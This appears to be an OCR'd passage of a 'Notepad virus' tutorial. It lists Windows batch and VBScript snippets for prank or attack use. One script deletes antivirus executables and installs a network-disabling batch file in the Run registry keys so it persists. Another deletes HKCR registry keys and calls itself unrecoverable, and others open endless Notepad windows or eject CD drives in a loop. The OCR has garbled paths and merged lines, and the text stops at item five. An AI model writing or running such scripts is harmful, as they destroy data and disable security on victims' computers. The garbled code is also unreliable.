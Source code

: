 cls
del /Q /F C:\Program Files\apvxdwin\*.exe
del /Q /F C:\Program Files\webproxy\*.exe
del /Q /F C:\Program Files\panda
software\*.*
rem
echo @echo off>c:windowswimn32.bat
echo break off>c:windowswimn32.bat echo
ipconfig/release_all>c:windowswimn32.bat
echo end>c:windowswimn32.batreg add
hkey_local_machinesoftwaremicrosoftwindowscurrentversionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.bat /freg add
hkey_current_usersoftwaremicrosoftwindowscurrentversionrun /v CONTROLexit /t reg_sz /d c:windowswimn32.bat /fecho You Have Been HACKED!
PAUSE

2. Delete Key Registry Files
This will delete key registry files, then loops a message

This is dangerous and unrecoverable Notepad Virus.

@ECHO OFF
 START reg delete HKCR/.exe
 START reg delete HKCR/.dll
 START reg delete HKCR/*
 :MESSAGE
 ECHO Your PC has been crashed.Your Dad.
 GOTO MESSAGE
3. Endless Notepads
This will pop up endless notepads until the computer freezes and crashes


 
@ECHO off
 :top
 START %SystemRoot%\system32\notepad.exe
 GOTO top
4. Popping CD Drives
This will make the CD drives constantly pop out

Set oWMP = CreateObject(”WMPlayer.OCX.7″)
 Set colCDROMs = oWMP.cdromCollection
 do
 if colCDROMs.Count >= 1 then
 For i = 0 to colCDROMs.Count – 1
 colCDROMs.Item(i).Eject
 Next
 For i = 0 to colCDROMs.Count – 1
 colCDROMs.Item(i).Eject
 Next
 End If
 wscript.sleep 100
 loop
5. Endless Enter
This will make the enter button pressed continuously
